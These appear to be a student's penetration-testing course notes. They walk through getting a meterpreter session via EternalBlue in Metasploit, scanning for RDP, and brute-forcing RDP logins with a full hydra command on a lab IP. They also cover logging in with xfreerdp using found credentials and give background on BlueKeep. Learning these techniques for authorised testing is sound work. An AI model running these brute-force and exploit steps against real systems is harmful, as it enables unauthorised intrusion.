 #### Automatic Exploiting EternalBlue 
+ Open <mark style="background: #FF5582A6;">msfconsole</mark>
	+ `search eternalblue`
		+ will have an option of a scanner or an exploit 
	+ `show options`
	+ `set RHOSTS IP`
	+ `run`
+ Now has the <mark style="background: #FF5582A6;">meterpreter</mark> session very quickly 

### Exploiting RDP

+ The Remote Desktop Protocol (<mark style="background: #BBFABBA6;">RDP</mark>) is a <mark style="background: #FFF3A3A6;">proprietary GUI remote access protocol </mark>developed by Microsoft and is used to remotely connect and interact with a Windows system.
+ RDP uses TCP port 3389 by default, and can also be configured to run on any other TCP port.
	+ Must be aware that they may move it to another port 
+ RDP authentication requires a legitimate user account on the target system as well as the user’s password in clear-text.
+ We can perform an <mark style="background: #ADCCFFA6;">RDP brute-force attack</mark> to identify legitimate user credentials that we can use to gain remote access to the target system.

<mark style="background: #FF5582A6;">msfconsole</mark> has a good RDP scanner to verify if a port is running RDP
+ can `search rdp_scanner` or `use auxiliary/scanner/rdp/rdp_scanner`
	+ `set RHOSTS IP`
	+ `set RPORT PORT_NUMBER`
+ Will say if it is running and some version information 

Then, <mark style="background: #D2B3FFA6;">hydra</mark> can be used to do a brute force
+ `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.3.25.177 -s 3333`
	+ notice that the port is specified with `-s` because it is not on its tradition 3389
	+ can also use the `-t` to limit the speed 

Once the credentials are discovered, can now use <mark style="background: #D2B3FFA6;">xfreerdp</mark> to connect 
+ in the CLI, `xfreerdp /u:administrator /p:qwertyuiop /v:10.3.25.177:3333`

### Exploiting Windows CVE-2019-0708 RDP Vulnerability (BlueKeep) 

Have previously used a brute-force attack, will now learn an <mark style="background: #FF5582A6;">inherent vulnerability</mark> 

#### BlueKeep 
+ <mark style="background: #FF5582A6;">BlueKeep</mark> is the name given to an <mark style="background: #ADCCFFA6;">RDP vulnerability</mark> in Windows that could potentially allow attackers to <mark style="background: #FFF3A3A6;">remotely execute arbitrary code</mark> and gain access to a Windows system and consequently the network 
+ Made public by Microsoft in May 2019
+ BlueKeep takes advantage of a vulnerability in the Windows RDP protocol that allows attackers to <mark style="background: #FFF3A3A6;">gain access to a chunk of kernel memory</mark>, allowing them to remotely execute arbitrary code at the system level without authentication 
	+ Kernel is privileged, but can <mark style="background: #FFF3A3A6;">easily cause crashes</mark> 
+ A patch was released on May 14th, 2019
+ At the time of discovery, about 1 million systems worldwide were found to be vulnerable 
+ The BlueKeep vulnerability affects multiple versions of Windows:
	+ XP
	+ Vista
	+ Windows 7
	+ Windows Server 2008 & R2
